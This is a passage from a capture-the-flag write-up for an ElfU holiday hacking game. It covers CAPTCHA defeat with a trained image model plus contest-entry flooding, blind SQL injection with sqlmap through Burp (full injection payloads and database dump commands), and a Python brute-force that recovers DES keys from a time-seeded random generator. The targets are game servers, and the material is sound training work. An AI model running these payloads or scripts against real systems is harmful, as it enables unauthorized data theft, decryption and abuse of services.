polle@polle-pc:/tmp/solution/img_rec_tf_ml_demo $ mv capteha_images.tar.gz training_images/
polle@polle-pc:/tmp/solution/img_rec_tf_ml_demo $ cd training_images
polle@polle-pc:/tmp/solution/img_rec_tf_ml_demo/training_images $ tar xvf capteha_images.tar.gz
<-- Output removed for brevity -->
polle@polle-pc:/tmp/solution/img_rec_tf_ml_demo/training_images $ cd ..
```

We can now already start the training process for the ML model:
```
polle@polle-pc:/tmp/solution/img_rec_tf_ml_demo $ python3 retrain.py --image_dir training_image
<-- Output removed for brevity -->
```
While that is running, we can start on merging the prediction script and the api script.
We copy the entire contents of `capteha_api.py` into `predict_images_using_trained_model.py`.
Rather than making the two scripts work together, we are just going to merge them into one. As that will be significantly faster.
```
polle@polle-pc:/tmp/solution/img_rec_tf_ml_demo $ cat capteha_api.py >> predict_images_using_trained_model.py
```

We change the original `def main()` method for the prediction script to `def main_predict()`
We also remove the first occurance of the code block (because it is duplicated):
```
if __name__ == "__main__":
    main()
```

We should also add the `base64` and `re` modules as we are going to need those. Just add the following below the other imports at the top of the file
```
import base64
import re
```

Next, we comment out the following line:
```
final_answer = ','.join( [ img['uuid'] for img in b64_images ] )
```
So it looks like:
```
#final_answer = ','.join( [ img['uuid'] for img in b64_images ] )
```
Now we can replace the text
```
    '''
    MISSING IMAGE PROCESSING AND ML IMAGE PREDICTION CODE GOES HERE
    '''
```
with our implementation code:
```
    for img in b64_images:
        i_uuid = img['uuid']
        i_base64 = img['base64']
        open(f"unknown_images/{i_uuid}.png", 'wb').write(base64.b64decode(i_base64))

    results = main_predict() 

    found_images = list()
    for img in results:
        if results[img] in challenge_image_types:
            found_images.append(img)

    final_answer = ','.join( found_images )
```
Now all that remains is to edit the `main_predict` function to return our data in an appropriate format:
We need to replace the following block:
```
for prediction in prediction_results:
    print('TensorFlow Predicted {img_full_path} is a {prediction} with {percent:.2%} Accuracy'.format(**prediction))

```
with our own snippet:
```
uuids = {}
for prediction in prediction_results:
    uuids[re.search('/([^/]+?).png', prediction['img_full_path']).groups(1)[0]] = prediction['prediction']

return uuids
```

And that is all. We can fill in our email inside the script and run it to win! Do make sure you wait until the training process we started earlier is complete though! We should also clear the folder `unknown_images` before each run.
```
polle@polle-pc:/tmp/solution/img_rec_tf_ml_demo $ rm unknown_images/*
polle@polle-pc:/tmp/solution/img_rec_tf_ml_demo $ ./predict_images_using_trained_model.py
Processing Image unknown_images/f7882620-e587-11e9-97c1-309c23aaf0ac.png
Processing Image unknown_images/3e4507eb-e587-11e9-97c1-309c23aaf0ac.png
Processing Image unknown_images/b00dae0e-e587-11e9-97c1-309c23aaf0ac.png
Processing Image unknown_images/df0f4002-e587-11e9-97c1-309c23aaf0ac.png
<-- Output removed for brevity -->
Processing Image unknown_images/e8ce2a85-e586-11e9-97c1-309c23aaf0ac.png
Processing Image unknown_images/205a8100-e587-11e9-97c1-309c23aaf0ac.png
Processing Image unknown_images/ee771b43-e586-11e9-97c1-309c23aaf0ac.png
Processing Image unknown_images/2b949669-e586-11e9-97c1-309c23aaf0ac.png
Waiting For Threads to Finish...
CAPTEHA Solved!
Submitting lots of entries until we win the contest! Entry #
Submitting lots of entries until we win the contest! Entry #
Submitting lots of entries until we win the contest! Entry #3
<-- Output removed for brevity -->
Submitting lots of entries until we win the contest! Entry #102
{"data":"<h2 id=\"result_header\"> Entries for email address <<REDACTED>> no longer accepted as our systems show your email was already randomly selected as a winner! Go check your email to get 
your winning code. Please allow up to 3-5 minutes for the email to arrive in your inbox or check your spam filter settings. <br><br> Congratulations and Happy Holidays!</h2>","request":true}
```
We now receive an email and can submit our winning code


Completion text:
Krampus
> You did it!  Thank you so much.  I can trust you!
> To help you, I have flashed the firmware in your badge to unlock a useful new feature: magical teleportation through the steam tunnels.
> As for those scraps of paper, I scanned those and put the images on my server.
> I then threw the paper away.
> Unfortunately, I managed to lock out my account on the server.
> Hey! You’ve got some great skills. Would you please hack into my system and retrieve the scans?
> I give you permission to hack into it, solving Objective 9 in your badge.
> And, as long as you're traveling around, be sure to solve any other challenges you happen across.


#### Code
The code for this challenge is `8Ia8LiZEwvyZr2WO`.


-----------------------------
### Retrieve Scraps of Paper from Server
#### Context
Objective
> Gain access to the data on the Student Portal server and retrieve the paper scraps hosted there.
> What is the name of Santa's cutting-edge sleigh guidance system?
> For hints on achieving this objective, please visit the dorm and talk with Pepper Minstix.


Hint:
Krampus
> You did it!  Thank you so much.  I can trust you!
> To help you, I have flashed the firmware in your badge to unlock a useful new feature: magical teleportation through the steam tunnels.
> As for those scraps of paper, I scanned those and put the images on my server.
> I then threw the paper away.
> Unfortunately, I managed to lock out my account on the server.
> Hey! You’ve got some great skills. Would you please hack into my system and retrieve the scans?
> I give you permission to hack into it, solving Objective 9 in your badge.
> And, as long as you're traveling around, be sure to solve any other challenges you happen across.


Hint:
Pepper Minstix
> That's it - hooray!
> Have you had any luck retrieving scraps of paper from the Elf U server?
> You might want to look into SQL injection techniques.
> OWASP is always a good resource for web attacks.
> For blind SQLi, I've heard Sqlmap is a great tool.
> In certain circumstances though, you need custom tamper scripts to get things going!
> ...


Completed message:
Krampus
> Wow!  We’ve uncovered quite a nasty plot to destroy the holiday season.
> We’ve gotta stop whomever is behind it!
> I managed to find this protected document on one of the compromised machines in our environment.
> I think our attacker was in the process of exfiltrating it.
> I’m convinced that it is somehow associated with the plan to destroy the holidays.  Can you decrypt it?
> There are some smart people in the NetWars challenge room who may be able to help us.


Portal url:  
[https://studentportal.elfu.org/](https://studentportal.elfu.org/)


#### Solution
While playing around with the application, we notice very quickly that it uses special csrf tokens.
We will use burp as a proxy for our SQL injection, we can leave it to burp to handle grabbing the token and updating the request.

Burp config:
- Make a new macro (project options -> macro) called 'Get-Csrf'
- Capture a request made to https://studentportal.elfu.org/validator.php
- Select configure item, unselect any rules regarding cookies and create a new one for 'Custom Parameter Locations'
- Parameter name: 'token'
- Start after expression: '\r\n\r\n'
- End at delimiter: '$'

This will select the csrf token returned by the request to /validator.php
Now add a new Session handling rule (project options -> Session Handling)
- Click on add
- Call it add_token
- Go to scope tab and enable the 'Proxy' functionality. Also select a proper scope 'https://studentportal.elfu.org'
- Go back to the details tab and add a rule 'run a macro'
- select the macro we made before


Burp is now configured properly to update the csrf token on the fly.

We can now try a request to 
```
/application-check.php?elfmail=testelf%40gmail.com'&token=any_value_here (Note the single quote in the email field)
```
Because we proxy our request through burp, burp will automatically execute our macro and fetch the CSRF token for us.


This will give us an SQL error:
```
Error: SELECT status FROM applications WHERE elfmail = 'testelf@gmail.com'';<br>You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''testelf@gmail.com''' at line 1
```

Excellent. We can now let sqlmap work its magic on this endpoint through burp.
Note the `--proxy` flag to allow burp to handle the csrf token.

```
root@pv-kali:~# sqlmap --proxy=http://localhost:8080 --url="https://studentportal.elfu.org/application-check.php?elfmail=testelf%40gmail.com&token=blah" -p elfmail
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.3.12#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:19:17 /2019-12-20/

[12:19:17] [INFO] testing connection to the target URL
[12:19:19] [INFO] checking if the target is protected by some kind of WAF/IPS
[12:19:21] [INFO] testing if the target URL content is stable
[12:19:23] [INFO] target URL content is stable
[12:19:25] [INFO] heuristic (basic) test shows that GET parameter 'elfmail' might be injectable (possible DBMS: 'MySQL')
[12:19:27] [INFO] heuristic (XSS) test shows that GET parameter 'elfmail' might be vulnerable to cross-site scripting (XSS) attacks
[12:19:27] [INFO] testing for SQL injection on GET parameter 'elfmail'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[12:19:49] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[12:19:58] [WARNING] reflective value(s) found and filtering out
[12:20:05] [INFO] GET parameter 'elfmail' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="Your application is still pending!")
[12:20:05] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[12:20:07] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[12:20:08] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[12:20:10] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[12:20:12] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[12:20:14] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[12:20:15] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[12:20:17] [INFO] GET parameter 'elfmail' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
[12:20:17] [INFO] testing 'MySQL inline queries'
[12:20:19] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[12:20:19] [WARNING] time-based comparison requires larger statistical model, please wait........... (done)
[12:20:39] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[12:20:41] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[12:20:43] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[12:20:45] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[12:20:46] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[12:20:48] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[12:21:03] [INFO] GET parameter 'elfmail' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[12:21:03] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[12:21:03] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[12:21:07] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[12:21:16] [INFO] target URL appears to have 1 column in query
[12:21:23] [WARNING] if UNION based SQL injection is not detected, please consider and/or try to force the back-end DBMS (e.g. '--dbms=mysql')
[12:21:58] [INFO] target URL appears to be UNION injectable with 1 columns
[12:22:05] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[12:22:46] [INFO] testing 'MySQL UNION query (random number) - 1 to 20 columns'
[12:23:21] [INFO] testing 'MySQL UNION query (NULL) - 21 to 40 columns'
[12:23:55] [INFO] testing 'MySQL UNION query (random number) - 21 to 40 columns'
[12:24:30] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
[12:25:05] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
[12:25:41] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
[12:26:17] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
[12:26:53] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
[12:27:29] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
GET parameter 'elfmail' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 277 HTTP(s) requests:
---
Parameter: elfmail (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: elfmail=testelf@gmail.com' AND 6563=6563 AND 'UmEA'='UmEA&token=blah

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: elfmail=testelf@gmail.com' AND (SELECT 2081 FROM(SELECT COUNT(*),CONCAT(0x71626a6271,(SELECT (ELT(2081=2081,1))),0x7176767871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'IYVz'='IYVz&token=blah

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: elfmail=testelf@gmail.com' AND (SELECT 1767 FROM (SELECT(SLEEP(5)))ZSkF) AND 'rReh'='rReh&token=blah
---
[12:28:23] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0
[12:28:23] [INFO] fetched data logged to text files under '/root/.sqlmap/output/studentportal.elfu.org'

[*] ending @ 12:28:23 /2019-12-20/
```
Excellent, now sqlmap has all the info it needs to dump the database. So lets do exactly that. Instead of a full dump however, we will be a little more specific to save some time!


We list all the databases on the server, we find the `elfu` database and list all its tables. We spot the `krampus` table. Which is what we will dump.

```
root@pv-kali:~# sqlmap --proxy=http://localhost:8080 --url="https://studentportal.elfu.org/application-check.php?elfmail=testelf%40gmail.com&token=blah" -p elfmail --dbs

<< REDACTED FOR BREVITY >>

available databases [2]:
[*] elfu
[*] information_schema


root@pv-kali:~# sqlmap --proxy=http://localhost:8080 --url="https://studentportal.elfu.org/application-check.php?elfmail=testelf%40gmail.com&token=blah" -p elfmail -D elfu --tables

<< REDACTED FOR BREVITY >>

Database: elfu
[3 tables]
+--------------+
| applications |
| krampus      |
| students     |
+--------------+


root@pv-kali:~# sqlmap --proxy=http://localhost:8080 --url="https://studentportal.elfu.org/application-check.php?elfmail=testelf%40gmail.com&token=blah" -p elfmail -D elfu -T krampus --dump

<< REDACTED FOR BREVITY >>

tabase: elfu
Table: krampus
[6 entries]
+----+-----------------------+
| id | path                  |
+----+-----------------------+
| 1  | /krampus/0f5f510e.png |
| 2  | /krampus/1cc7e121.png |
| 3  | /krampus/439f15e6.png |
| 4  | /krampus/667d6896.png |
| 5  | /krampus/adb798ca.png |
| 6  | /krampus/ba417715.png |
+----+-----------------------+
```

Nice, we have the links to the images. We can now see all of them at
- [https://studentportal.elfu.org/krampus/0f5f510e.png](https://studentportal.elfu.org/krampus/0f5f510e.png)
- [https://studentportal.elfu.org/krampus/1cc7e121.png](https://studentportal.elfu.org/krampus/1cc7e121.png)
- [https://studentportal.elfu.org/krampus/439f15e6.png](https://studentportal.elfu.org/krampus/439f15e6.png)
- [https://studentportal.elfu.org/krampus/667d6896.png](https://studentportal.elfu.org/krampus/667d6896.png)
- [https://studentportal.elfu.org/krampus/adb798ca.png](https://studentportal.elfu.org/krampus/adb798ca.png)
- [https://studentportal.elfu.org/krampus/ba417715.png](https://studentportal.elfu.org/krampus/ba417715.png)


We get all these scraps of paper. 
If we use our Gimp / Photoshop / Paint skills, we can quickly piece these together and read the full note. 
One piece is missing, so we do not know who sent the note. (Though the symbol is a giveaway)


Full note:
```
################################################################
# From the Desk of t                                           #
#                                                              #
# Date: August 23, 20                                          #
#                                                              #
# Memo to Self                                                 #
#                                                              #
# Finally! I've figured out how to destroy Christmas!          #
# Santa has a brand new cutting edge sleigh guidance           #
# technology, called the Super Sled-o-matic.                   #
#                                                              #
# I've figured out a way to poison the data going into the     #
# system so that it will divert Santa's sled on Christmas      #
# Eve!                                                         #
#                                                              #
# Santa will be unable to make the trip and the holiday        #
# season will be destroyed! Santa's own technology will        #
# undermine him!                                               #
#                                                              #
# That's what they deserve for not listening to my             #
# suggestions for supporting other holiday characters!         #
#                                                              #
# Bwahahahahaha!                                               #
################################################################
```


#### Code
We obtain the code for this challenge: `Super Sled-o-matic`


-----------------------------
### Recover Cleartext Document
#### Context
Objective
> The Elfscrow Crypto tool is a vital asset used at Elf University for encrypting SUPER SECRET documents.
> We can't send you the source, but we do have debug symbols that you can use.
> Recover the plaintext content for this encrypted document. We know that it was encrypted on December 6, 2019, between 7pm and 9pm UTC.
> What is the middle line on the cover page? (Hint: it's five words)
> For hints on achieving this objective, please visit the NetWars room and talk with Holly Evergreen.


Hint:
Krampus
> Wow!  We’ve uncovered quite a nasty plot to destroy the holiday season.
> We’ve gotta stop whomever is behind it!
> I managed to find this protected document on one of the compromised machines in our environment.
> I think our attacker was in the process of exfiltrating it.
> I’m convinced that it is somehow associated with the plan to destroy the holidays.  Can you decrypt it?
> There are some smart people in the NetWars challenge room who may be able to help us.


Hint:
Holly Evergreen
> Woohoo! Fantabulous! I'll be the coolest elf in class.
> On a completely unrelated note, digital rights management can bring a hacking elf down.
> That ElfScrow one can really be a hassle.
> It's a good thing Ron Bowes is giving a talk on reverse engineering!
> _That_ guy knows how to rip a thing apart.  It's like he *breathes* opcodes!


Elfscrow Crypto:  
[https://downloads.elfu.org/elfscrow.exe](https://downloads.elfu.org/elfscrow.exe)


Symbols:  
[https://downloads.elfu.org/elfscrow.pdb](https://downloads.elfu.org/elfscrow.pdb)


Encrypted Document:  
[https://downloads.elfu.org/ElfUResearchLabsSuperSledOMaticQuickStartGuideV1.2.pdf.enc](https://downloads.elfu.org/ElfUResearchLabsSuperSledOMaticQuickStartGuideV1.2.pdf.enc)


#### Solution
The executable is a windows binary. So we will play with it on a commando vm.
We will capture the network traffic while encrypting the file.

```
λ  .\elfscrow.exe --insecure --encrypt test.txt test.txt.enc
Welcome to ElfScrow V1.01, the only encryption trusted by Santa!

*** WARNING: This traffic is using insecure HTTP and can be logged with tools such as Wireshark

Our miniature elves are putting together random bits for your secret key!

Seed = 1576855032

Generated an encryption key: 2d98906f2cda51da (length: 8)

Elfscrowing your key...

Elfscrowing the key to: elfscrow.elfu.org/api/store

Your secret id is f42b5971-c51e-45a9-a3ac-7c532cf1e722 - Santa Says, don't share that key with anybody!
File successfully encrypted!

    ++=====================++
    ||                     ||
    ||      ELF-SCROW      ||
    ||                     ||
    ||                     ||
    ||                     ||
    ||     O               ||
    ||     |               ||
    ||     |   (O)-        ||
    ||     |               ||
    ||     |               ||
    ||                     ||
    ||                     ||
    ||                     ||
    ||                     ||
    ||                     ||
    ++=====================++
```

We see that we send the key `2d98906f2cda51da` to the endpoint elfscrow.elfu.org/api/store.
The server responds to this by sending back the identifier `f42b5971-c51e-45a9-a3ac-7c532cf1e722`

Resending the same key to the endpoint three times results in three different ids:
```
e40f6b67-273b-4cd6-afa6-8594cdc58b63
a5bae332-43d9-42fa-91ac-0ff6700ee6d7
7ddb7a7c-7853-4c2b-a589-73912f4d365c
```
So the id is clearly not generated purely from the key itself.
We can also retrieve our key by posting the ID back to the endpoint elfscrow.elfu.org/api/retrieve.
The server responds with the key we sent it in the first place.

So, when we encrypt a file, the following happens:
- A key is generated based on a random seed
- The key is used to encrypt our file
- The key is stored on the elfu server
- The server delivers us an identifier

If we decrypt a file, the following happens:
- We submit our encrypted file and identifier to the application
- The identifier is used to retrieve our key from the server
- Our retrieved key is used to decrypt our file

As a result, there are two possible ways to attack this encryption:
- Obtain the identifier corresponding to the key used to encrypt the file
- Obtain the key used to encrypt the file

We need to retrieve one of those two things for the encrypted pdf document.
Guessing the identifier will be hard, as it appears random at first glance.
We also know very little about the key store server and how it generates the identifiers.

Because of this, we decided to attack the key itself. We can see the random seed used generate the key when we run the binary, and it seems to not change all that much.
After playing around with it for a little while, it becomes clear that the random seed is just the current timestamp.

Lets open the application in Ghidra and figure out how our keys are being generated.
We look through the code a bit and find at some point the function that generates the key:


```
void __thiscall ?generate_key@@YAXQAE@Z(void *this,uchar *buffer)

{
  FILE *pFVar1;
  int iVar2;
  time_t tVar3;
  char *_Format;
  uint i;

  _Format = "Our miniature elves are putting together random bits for your secret key!\n\n";
  pFVar1 = __iob_func();
  fprintf(pFVar1 + 2,_Format,this);
  tVar3 = time((time_t *)0x0);
  ?super_secure_srand@@YAXH@Z((int)tVar3);
  i = 0;
  while (i < 8) {
    iVar2 = super_secure_random();
    buffer[i] = (uchar)iVar2;
    i = i + 1;
  }
  return;
}
```

We also find the functions for encryption, decryption, and the random number generation.
We analyse these functions and write our own pseudo code for the ones we want to have a closer look at.

```
generate(*buffer)
{
  int next_byte;
  time_t time;
  uint i;

  time = time((time_t *)0x0);
  super_secure_srand(time);
  i = 0;
  while (i < 8) {
    next_byte = super_secure_random();
    buffer[i] = (uchar)next_byte;
    i = i + 1;
  }
  return;
}

super_secure_srand(int seed)
{
  global_value = seed;
  return;
}

int super_secure_random(void)
{
  global_value = global_value * 0x343fd + 0x269ec3;
  return global_value >> 0x10 & 0x7fff;
}
```

We can see here that the seed is indeed just the current timestamp.
This seed is used in the random number generator. If we know the exact timestamp of encryption we can generate the key that was used.
We look further and find that the encryption is done using `DES CBC`.

That is all the info we need to complete this challenge.

All we do now is create a python script that takes a timestamp and creates a key from that timestamp.
It should then use that key in DES CBC mode to decrypt the file.

We then need to iterate over a two hour period:
> December 6, 2019, between 7pm and 9pm UTC. -> from `1575658800` to `1575666000`

We try to decrypt with each key. If an error occurs during the decryption we do nothing.
If the decryption completes without error, we need to check if the decrypted file is real or just garbage data.
To do this, we only consider a file valid if it contains the string 'PDF'.
Alternatively, we could have searched for some other magic bytes used in pdf files and tried to match on those.


Putting all this together, we end up with the following fairly simple python script:
```python
#!/usr/bin/env python3
from hashlib import md5

from Crypto.Cipher import DES
from Crypto.Random import get_random_bytes
from Crypto.Util.Padding import pad, unpad
from datetime import datetime

enc_file = "ElfUResearchLabsSuperSledOMaticQuickStartGuideV1.2.pdf.enc"
out_file = "ElfUResearchLabsSuperSledOMaticQuickStartGuideV1.2"

class DESCipher:
    def __init__(self, key):
        self.key = key

    def decrypt(self, data):
        self.cipher = DES.new(self.key, DES.MODE_CBC, data[:DES.block_size])
        return unpad(self.cipher.decrypt(data[DES.block_size:]), DES.block_size)
        # In case you get padding errors, you can try to just not unpad
        #return self.cipher.decrypt(raw[AES.block_size:])

def gen_key(seed):
    key_b = seed
    key = bytearray()
    for i in range(8):
        key_b = key_b * 0x343fd + 0x269ec3
        val = hex(key_b >> 0x10 & 0x7fff)[-2:]
        if 'x' in val:
            val = val.replace('x', '0')
        val = bytes.fromhex(val)
        key.append(val[0])
    return key

def test_decrypt(key):
    print('TESTING DECRYPTION')
    with open(enc_file, "rb") as data:
        data = data.read()
        print('Message...:', DESCipher(key).decrypt(data).decode())

def bruteforce_decrypt():
    print('BRUTEFORCING DECRYPTION')
    with open(enc_file, "rb") as data:
        data = data.read()
        start = 1575658800
        stop = 1575666000
        for i in range(start, stop):
            perc = round(((i - start) / (stop - start)) * 100, 2)
            print(f"Progress: {perc}% done                 \r", end = '')
            key = gen_key(i)
            try:
                decrypted = DESCipher(key).decrypt(data)
                write_out(key, decrypted)
            except KeyboardInterrupt:
                raise
            except:
                pass

out_file_nr = 1
def write_out(key, data):
    global out_file_nr
    if b'PDF' in data:
        with open(f"{out_file}_{out_file_nr}.pdf", 'wb') as out:
            print(f"Found possible match using key '{key.hex()}'! Writing to {out_file}_{out_file_nr}.pdf")
            out.write(data)
            out_file_nr = out_file_nr + 1

if __name__ == '__main__':
    bruteforce_decrypt()
```

Running this file properly decrypts the PDF:
```
polle@polle-pc $ ./des_cbc.py
BRUTEFORCING DECRYPTION
Found possible match using key '281c677ff935b40b'! Writing to ElfUResearchLabsSuperSledOMaticQuickStartGuideV1.2_1.pdf
Found possible match using key '9b1b55262118f0e2'! Writing to ElfUResearchLabsSuperSledOMaticQuickStartGuideV1.2_2.pdf
Found possible match using key 'aa6dccac453dc2db'! Writing to ElfUResearchLabsSuperSledOMaticQuickStartGuideV1.2_3.pdf
Found possible match using key 'b5ad6a321240fbec'! Writing to ElfUResearchLabsSuperSledOMaticQuickStartGuideV1.2_4.pdf
```


We end up with multiple potential files, (sometimes garbage data happens to form the word 'PDF').
One of them is the decrypted file however. You can read it [here](relevant_files/ElfUResearchLabsSuperSledOMaticQuickStartGuideV1.2.pdf)


The middle line on the cover page is our code word

#### Code
The code word: `Machine Learning Sleigh Route Finder`

-----------------------------
### Open the Sleigh Shop Door
#### Context
Objective
> Visit Shinny Upatree in the Student Union and help solve their problem. What is written on the paper you retrieve for Shinny?
> For hints on achieving this objective, please visit the Student Union and talk with Kent Tinseltooth.

Hint:
Shinny Upatree
> _Psst - hey!_
> I'm Shinny Upatree, and **I** know what's going on!
> Yeah, that's right - guarding the sleigh shop has made me privvy to some _serious_, high-level intel.
> In fact, I know WHO is causing all the trouble.
> Cindy? Oh no no, not _that_ who.  And stop guessing - you'll never figure it out.
> The only way you _could_ would be if you could break into [my crate](https://crate.elfu.org), here.
> You see, I've written the villain's name down on a piece of paper and hidden it away securely!

Alternatively, after completing the `Smart Braces` challenge, we could have found the door like this.  
Hint:
Kent Tinseltooth
> Oh thank you!  It's so nice to be back in my own head again.  Er, alone.
> By the way, have you tried to get into the crate in the Student Union?  It has an interesting set of locks.
> There are funny rhymes, references to perspective, and odd mentions of eggs!
> And if you think the stuff in your browser looks strange, you should see the page source...
> Special tools?  No, I don't think you'll need any extra tooling for those locks.
> BUT - I'm pretty sure you'll need to use Chrome's developer tools for that one.
> Or sorry, you're a Firefox fan?
> Yeah, Safari's fine too - I just have an ineffible hunger for a physical Esc key.
> Edge?  That's cool.  Hm?  No no, I was thinking of an unrelated thing.
> Curl fan?  Right on!  Just remember: the Windows one doesn't like double quotes.
> _Old school, huh?  Oh sure - I've got what you need right here..._

There is no crate to be found in the room however, until we have a look at the source code.
We search for 'crate' and find some elements.

```
<a href="http://sleighworkshopdoor.elfu.org">
    <div class="crate">
        <div class="side"></div>
        <div class="front"></div>
        <div class="top"></div>
    </div>
</a>
```

Here we also find the crate link:  
[http://sleighworkshopdoor.elfu.org](http://sleighworkshopdoor.elfu.org)


#### Solution
This page contains several locks that we need to find the unlock codes for.

##### Challenge 1
Objective:
> You don't need a clever riddle to open the console and scroll a little.

Hints:
- Google: "[your browser name] developer tools console"
- The code is 8 char alphanumeric

Solution:  
Just open the developer console and scroll up in it a little.


##### Challenge 2
Objective:
>Some codes are hard to spy, perhaps they'll show up on pulp with dye?

Hints:
- Most paper is made out of pulp.
- How can you view this page on paper?
- Emulate `print` media, print this page, or view a print preview.

Solution:  
Print preview the page, the code will be printed in big letters next to the lock.


##### Challenge 3
Objective:
> This code is still unknown; it was fetched but never shown.

Hints:
- Google: "[your browser name] view network"
- Examine the network requests.

Solution:  
Have a look at the firefox network tab to see that the code was fetched in the form of an image file.


##### Challenge 4
Objective:
> Where might we keep the things we forage? Yes, of course: Local barrels!

Hints:
- Google: "[your browser name] view local storage"

Solution:  
Have a look at the storage tab in the developer console. Check out 'Local Storage' for the code.


##### Challenge 5
Objective:
> Did you notice the code in the title? It may very well prove vital.

Hints:
- There are several ways to see the full page title:
    - Hovering over this browser tab with your mouse
    - Finding and opening the `<title>` element in the DOM tree
    - Typing `document.title` into the console

Solution:  
Just look at the title of the page or type `document.title` in the console.


##### Challenge 6
Objective:
> In order for this hologram to be effective, it may be necessary to increase your perspective.

Hints:
- `perspective` is a css property.
- Find the element with this css property and increase the current value.

Solution:  
Right click on the hologram, inspect element. Look at the css window and increase the value of 'perspective' to a very high number.


##### Challenge 7
Objective:
> The font you're seeing is pretty slick, but this lock's code was my first pick.

Hints:
- In the `font-family` css property, you can list multiple fonts, and the first available font on the system will be used.

Solution:  
Right click on the text, inspect element, notice the font-family css property.


##### Challenge 8
Objective:
> In the event that the .eggs go bad, you must figure out who will be sad.

Hints:
- Google: "[your browser name] view event handlers"

Solution:  
Right click on 'eggs', inspect element, notice the event handler and examine it.
We see that the js code will set window['VERONICA'] to 'sad'

The correct answer is `VERONICA`


##### Challenge 9
Objective:
> This next code will be unredacted, but only when all the chakras are :active.

Hints:
- `:active` is a css pseudo class that is applied on elements in an active state.
- Google: "[your browser name] force psudo classes"

Solution:  
We can find all the elements with .chakra class. We can then force the pseudo class for these to active one by one in firefox.
Together they form the key.


##### Challenge 10
Objective:
>Oh, no! This lock's out of commission! Pop off the cover and locate what's missing.


Hints:
- Use the DOM tree viewer to examine this lock. you can search for items in the DOM using this view.
- You can click and drag elements to reposition them in the DOM tree.
- If an action doesn't produce the desired effect, check the console for error output.
- Be sure to examine that printed circuit board.

Solution:  
Inspect the element of the last lock. Find the div named `cover` and move it up the dom.
We can just examine the right side of the circuit board to find the key for this lock.


We write the code down and place the cover back where we took it from. We can now enter the code and press unlock.

However, when we press unlock, nothing happens.
We see an error in the console now.


```
Error: "Missing macaroni!"
    317784542493 https://sleighworkshopdoor.elfu.org/client.js/e1435a61-aa73-4433-b18d-cb8a5ccf20ea:1
```

We just search the html for 'macaroni', find the div, and drag it into the lock div.
We then repeat these steps for the other elements that are missing. We need:
- Macaroni
- Gnome
- Swab


Once that is done. We can submit the code.

Now that all locks are unlocked, we can see who is the evil villain trying to ruin the holiday season!


#### Code
The code for this challenge is `The Tooth Fairy`


-----------------------------
### Filter Out Poisoned Sources of Weather Data
#### Context
Objective
> Use the data supplied in the Zeek JSON logs to identify the IP addresses of attackers poisoning Santa's flight mapping software.
> Block the 100 offending sources of information to guide Santa's sleigh through the attack. Submit the Route ID ("RID") success value that you're given.
> For hints on achieving this objective, please visit the Sleigh Shop and talk with Wunorse Openslae.

Hint:
Wunorse Openslae
> That's got to be the one - thanks!
> Hey, you know what? We've got a crisis here.
> You see, Santa's flight route is planned by a complex set of machine learning algorithms which use available weather data.
> All the weather stations are reporting severe weather to Santa's Sleigh. I think someone might be forging intentionally false weather data!
> I'm so flummoxed I can't even remember how to login!
> Hmm... Maybe the Zeek http.log could help us.
> I worry about LFI, XSS, and SQLi in the Zeek log - oh my!
> And I'd be shocked if there weren't some shell stuff in there too.
> I'll bet if you pick through, you can find some naughty data from naughty hosts and block it in the firewall.
